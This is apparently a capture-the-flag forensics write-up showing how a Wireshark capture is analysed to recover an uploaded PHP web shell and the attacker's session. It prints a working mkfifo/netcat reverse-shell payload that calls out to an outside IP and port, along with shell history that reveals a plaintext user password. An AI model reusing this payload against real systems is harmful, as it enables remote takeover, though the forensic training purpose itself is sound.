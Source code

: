 ### IP
`10.10.67.208`

# Foresics
### wireshark
* Opening the file in Wireshark, we can extract HTTP objects in `File > Export Objects > HTTP`
	* Here, we see that one of the uploaded objects was called `upload.php`
	* Doing a string search for this in Wireshark, we can see a `POST` request with the URI `/developement/upload.php`
	* The URL used to upload the revshell is `/development/`
	* We can also `cat upload.php` to see the payload:
```php
-----------------------------1809049028579987031515260006

Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"

Content-Type: application/x-php



<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>


-----------------------------1809049028579987031515260006

Content-Disposition: form-data; name="submit"



Upload File

-----------------------------1809049028579987031515260006--

```

* The payload was `exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`


* To get the password, we can do a string search for `"password"`
	* Packet # 100 (In TCP stream 3) looks like it has the reverse shell history.
	* We can right click on any of these packets and select `Follow > TCP Stream` to see this:
```bash
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant

james@overpass-production:/var/www/html/development/uploads$ cd ~
cd ~
james@overpass-production:~$ sudo -l]
sudo -l]
```